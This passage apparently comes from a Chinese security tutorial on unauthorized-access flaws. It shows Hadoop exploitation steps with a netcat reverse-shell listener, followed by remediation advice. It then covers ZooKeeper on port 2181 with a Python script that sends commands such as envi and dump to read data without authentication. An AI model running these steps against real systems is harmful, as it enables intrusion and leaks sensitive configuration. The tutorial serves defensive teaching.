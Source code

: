 （1）修改 py 中 target、lhost 的 IP

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuic1C4Ud6b16iauoMyGwDOTg1AshVKfkt4lHW7IoNUFo3bskia2oibV9LZA/640?wx_fmt=jpeg)

（2）开启监听 nc -lvvp 9999

（3）python exploit.py

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuic6RicZvn1sdx3P8yOn7vpczJFFcfaRicicxcuOvEQoEQeCuf9pSUxj2lg/640?wx_fmt=jpeg)

### 修复方法

（1）如无必要，关闭 Hadoop Web 管理页面

（2）开启身份验证 , 防止未经授权用户访问。

（3）设置 “安全组” 访问控制策略, 将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访包括 50070 以及 WebUI 等相关端口。

Zookeeper 未授权访问漏洞
-----------------

### 漏洞简介

Zookeeper 是分布式协同管理工具，常用来管理系统配置信息，提供分布式协同服务，是 Hadoop 和 Hbase 的重要组件。它是一个为分布式应用提供一致性服务的软件，提供的功能包括配置维护、域名服务、分布式同步、组服务等。

ZooKeeper 默认开启在 **2181** 端口，在未进行任何访问控制的情况下，攻击者可通过执行 envi 命令获得系统大量的敏感信息，包括系统名称、Java 环境，这将导致任意用户在网络可达的情况下进行未授权访问并读取数据甚至 kill 服务。

### 漏洞复现

#### 环境搭建

```
\# coding=utf-8
import socket
import sys

def check(ip, port, timeout, cmd):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)
        s.connect((ip, int(port)))
        s.send(cmd)
        data = s.recv(1024)
        s.close()
        print data
    except:
        pass

def main():
    if len(sys.argv) < 3:
        exit()
    ip = sys.argv\[1\]
    cmd = sys.argv\[2\]
    # envi
    # dump
    # reqs
    # ruok
    # stat
    check(ip, 2181, 3, cmd)

if \_\_name\_\_ == '\_\_main\_\_':
main()
```
